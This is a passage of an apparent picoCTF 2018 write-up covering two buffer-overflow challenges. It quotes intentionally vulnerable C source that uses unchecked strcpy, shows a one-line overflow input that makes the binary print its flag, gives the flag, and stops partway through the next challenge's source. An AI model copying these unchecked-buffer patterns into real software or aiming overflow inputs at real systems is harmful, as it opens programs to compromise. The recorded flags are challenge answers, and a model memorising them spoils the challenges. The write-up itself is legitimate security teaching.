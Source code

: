 ```c
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```

The `vuln` function immediately captured my attention. Because `strcpy` doesn't check the length of the buffers, it can easily cause a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow). Let's `strcpy` more that 16 bytes into the `buf` buffer to trigger the buffer overflow. That will cause a `SIGSEGV` signal that calls `sigsegv_handler`, and the handler function with print out the flag for us:

```
$ ./vuln `python -c "print 'a'*(100)"`
picoCTF{ov3rfl0ws_ar3nt_that_bad_3598a894}
```

flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_3598a894}`

# buffer overflow 1

## Problem

Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](/blog/picoctf-2018-writeup/Binary Exploitation/buffer overflow 1/vuln)? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source](/blog/picoctf-2018-writeup/Binary Exploitation/buffer overflow 1/vuln.c).

## Solution

Same as the last one, let's start by reading the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
```